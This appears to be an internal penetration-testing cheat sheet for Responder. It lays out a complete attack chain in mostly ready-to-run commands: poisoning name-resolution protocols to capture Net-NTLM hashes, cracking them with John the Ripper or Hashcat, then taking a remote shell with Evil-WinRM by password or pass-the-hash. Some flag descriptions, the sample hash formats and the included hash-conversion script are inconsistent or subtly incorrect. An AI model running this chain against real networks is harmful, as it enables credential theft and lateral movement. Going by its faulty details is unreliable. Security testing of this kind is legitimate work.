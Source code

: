 Responder is a powerful man-in-the-middle (MITM) tool used during internal penetration testing or red teaming. It works by poisoning name resolution protocols such as LLMNR (Link-Local Multicast Name Resolution), NBT-NS (NetBIOS Name Service), and mDNS (Multicast DNS) to intercept authentication requests on a local network. When a system tries to resolve a name that doesn't exist, Responder replies with its own IP address, tricking the system into authenticating to it. This often results in capturing valuable Net-NTLMv1 or Net-NTLMv2 password hashes, which can then be cracked using tools like John the Ripper or Hashcat.


Overview

Responder is a powerful tool used for Man-in-the-Middle (MITM) attacks, particularly useful in poisoning network protocols like LLMNR, NBT-NS, and mDNS, to capture authentication requests (e.g., NTLM hashes) and redirect traffic.


 Installation

1. Install Responder on Kali Linux:
    
    
    sudo apt update && sudo apt install responder
   
    
2. Clone Responder Repository (if needed):
    
    
    git clone https://github.com/lgandx/Responder.git
    cd Responder
   


 Usage

1. Start Responder (Basic Mode):
    
    
    sudo python3 Responder.py -I eth0
   
    
    - `-I eth0`: Specify the network interface to listen on.
        
    - Listens for LLMNR, NBT-NS, and mDNS requests to capture hashes.
        
2. Start Responder with Extended Features:
    
    
    sudo python3 Responder.py -I eth0 -rdw
   
    
    - `-r`: Enables LLMNR and NBT-NS poisoning.
        
    - `-d`: DNS spoofing.
        
    - `-w`: Web Server to capture credentials from HTTP requests.
        
3. Capture NTLM Hashes:
    
    - Hashes are stored in `Responder/logs/` and can be cracked using John or Hashcat.
        
4. Analyzing Captured Hashes:
    
    
    john --format=NT hashfile.txt
   
    
5. Configure Responder to Redirect SMB/HTTP Requests:
    
    
    sudo python3 Responder.py -I eth0 -rdwh
   


 Common Responder Commands

- Start in Listen Mode:
    
    
    sudo python3 Responder.py -I eth0
   
    
- Show Information on Interface:
    
    
    sudo python3 Responder.py -I eth0 -w
   
    
- Stop Responder:  
    Use `CTRL+C` to terminate the process.
    



Using Responder to Capture Hashes


sudo responder -I eth0

- `-I eth0`: Replace `eth0` with the network interface you are monitoring.
    
- Wait for a system to attempt to resolve a non-existent hostname.
    
- Responder will capture and log Net-NTLM hashes.
    

Hash example:


Administrator:::37f4e9cbeb85d711:9A4ABD7B2C1E16929D902A48952DAF97:0101000000000000...


Cracking Net-NTLMv2 Hashes with John the Ripper

1. Save the hash in a file called `raw_hash.txt`.
    
2. Use the `ntlmv2-to-john.py` script (create if missing):
    

/usr/share/john/run/ntlmv2-to-john.py raw_hash.txt > john_ready.txt

If the script does not exist, create it manually:

python
#!/usr/bin/env python3
import sys

def parse_ntlmv2(line):
    parts = line.strip().split(":")
    if len(parts) < 5:
        return None
    username = parts[0]
    domain = parts[2]
    challenge = parts[3]
    response = parts[4]
    rest = ":".join(parts[5:])
    return f"{username}${domain}${challenge}${response}${rest}"

if len(sys.argv) != 2:
    print("Usage: ntlmv2-to-john.py <inputfile>")
    sys.exit(1)

with open(sys.argv[1], "r") as infile:
    for line in infile:
        parsed = parse_ntlmv2(line)
        if parsed:
            print(parsed)

Make it executable:


chmod +x /usr/share/john/run/ntlmv2-to-john.py


3. Crack the hash:
    


john john_ready.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt


4. Show results:
    

john --show john_ready.txt



Cracking Net-NTLMv2 Hashes with Hashcat

1. Ensure the hash is in correct format:
    

Administrator::DOMAIN:37f4e9cbeb85d711:9A4ABD7B2C1E16929D902A48952DAF97:0101000000000000...

Save to `hashcat_hash.txt`

2. Run Hashcat:
    


hashcat -m 5600 -a 0 -O hashcat_hash.txt /usr/share/wordlists/rockyou.txt


3. Show results:
    


hashcat -m 5600 hashcat_hash.txt --show




Using Evil-WinRM for Remote Shell Access

Once you crack the password:


evil-winrm -i <target-ip> -u <username> -p <password>


Or if you have the NTLM hash:


evil-winrm -i <target-ip> -u <username> -H <hash>


Summary Workflow

1. Run Responder to capture hashes
    
2. Crack with John or Hashcat
    
3. Log in using Evil-WinRM if WinRM is enabled
    
4. Elevate privileges or pivot as needed
    

This triad (Responder + Cracking + WinRM) forms the foundation of many internal Windows exploitation and lateral movement chains.